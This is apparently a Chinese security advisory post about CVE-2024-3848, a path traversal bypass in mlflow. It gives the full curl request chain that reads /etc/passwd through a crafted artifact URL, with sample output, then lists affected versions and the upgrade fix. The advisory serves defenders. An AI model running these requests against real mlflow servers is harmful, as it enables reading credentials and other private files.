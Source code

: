 #  【漏洞预警】mlflow信息泄露漏洞(CVE-2024-3848)   
cexlife  飓风网络安全   2024-05-17 17:02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu02QD7v8DcIf568vLQkLNtppKbwESUckGK5opUfA4WeJ49nPTPxaj3GwAEt2V7kZ9Mvib2cEoz7wqHQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞描述:**  
  
mlflоԝ/mlflоԝ版本2.11.0中存在一个路径遍历漏洞,该漏洞被识别为先前解决的CVE-2023-6909的绕过,该漏洞源于应用程序对工件URL的处理,其中可以使用“#”字符将路径插入片段，从而有效地跳过验证,这允许攻击者构建一个URL,该URL在处理后会忽略协议方案并使用提供的路径进行文件系统访问。因此,攻击者可以通过利用应用程序将URL转换为文件系统路径的方式来读取任意文件,包括SSH和云密钥等敏感信息,该问题源于对ＵRL的片段部分验证不足,导致通过路径遍历读取任意文件。  
  
**漏洞利用思路:**  
  
$ mlflow ui  
  
$ curl -X POST -H 'Content-Type: application/json' -d '{"name": "bypass", "artifact_location": "http://host#/../../../../../../../../../../../../../../etc/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/experiments/create'创建一个与以前的 experiment_id: $ curl -X POST -H 'Content-Type: application/json' -d '{"experiment_id": "{{experiment_id}}"}' 'http://127.0.0.1:5000/api/2.0/mlflow/runs/create'# Response{  "run": {    "info": {      "experiment_id": "224397038277278053",      # ...      "artifact_uri": "http://host/3ea60c6e13f544188adfcd7de0d8a79a/artifacts#/../../../../../../../../../../../../../../etc/",      # ...      "run_id": "3ea60c6e13f544188adfcd7de0d8a79a"    },   # ...  }}创建一个注册的模型:$ curl -X POST -H 'Content-Type: application/json' -d '{"name": "bypass"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/registered-models/create'链接模型版本之前 run_id: $ curl -X POST -H 'Content-Type: application/json' -d '{"name": "bypass", "run_id": "{{run_id}}", "source": "file:///etc/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'# Response{  "model_version": {    "name": "bypass",    "version": "1",   # ...    "source": "file:///etc/",    "run_id": "27b0624006b94c998434d063387a8b06",   # ...  }}读取/etc/passwd: $ curl 'http://127.0.0.1:5000/model-versions/get-artifact?path=passwd&name=bypass&version=1'root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologin  
  
  
(....)  
  
****  
**影响产品:**  
  
2.9.2<=mlflow<2.12.1 **补丁名称:**mlfｌоԝ 信息泄露漏洞—关注厂商的主页以获取最新版本**文件链接:**https://github.com/mlflow/mlflow/releases/tag/v2.12.2  
  
**修复方案：**  
  
目前官方已有可更新版本,建议受影响用户升级至最新版本   
  

